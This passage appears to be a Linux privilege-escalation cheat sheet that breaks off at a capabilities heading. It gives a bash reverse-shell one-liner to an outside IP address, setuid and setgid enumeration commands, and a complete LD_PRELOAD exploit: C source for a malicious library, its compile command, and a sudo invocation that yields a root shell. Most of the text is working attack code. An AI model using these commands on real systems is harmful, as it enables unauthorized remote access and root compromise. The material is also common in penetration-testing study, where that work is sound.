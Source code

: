 ```$ cat /etc/os-release```
```
bash -i >& /dev/tcp/10.10.15.12/443 0>&1
```


## Setuid Bit
       
```$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```


## Setguid

```$ find / -uid 0 -perm -6000 -type f 2>/dev/null```



# Shared Libraries



the LD_PRELOAD environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the ldd utility.

```$ ldd /bin/ls```


## LD_PRELOAD Privilege Escalation


```
$ sudo -l

  (root) NOPASSWD: /usr/sbin/apache2 restart
```
we can exploit the LD_PRELOAD issue to run a custom shared library file. Let's compile the following library:
```
        (root.c)

        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
        }
```

```$ gcc -fPIC -shared -o root.so root.c -nostartfiles```

```$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart```

Make sure to specify the full path to your malicious library file.

!This is not a shared object library found in ldd output though


# Capabilities

## Set Capability

```